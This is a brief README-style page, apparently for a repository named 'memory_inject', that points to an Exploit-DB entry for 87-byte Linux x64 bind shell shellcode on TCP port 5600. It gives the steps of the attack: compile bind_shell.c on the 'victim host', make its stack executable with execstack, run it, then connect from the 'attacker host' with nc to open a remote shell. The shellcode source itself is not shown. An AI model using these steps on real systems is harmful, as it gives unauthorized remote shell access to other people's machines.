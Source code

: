 # memory_inject

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

TCP bind shell

victim host =>
$ gcc -o bind_shell bind_shell.c
$ execstack -s bind_shell
$ ./bind_shell

attacker host =>
$ nc victim_host 5600
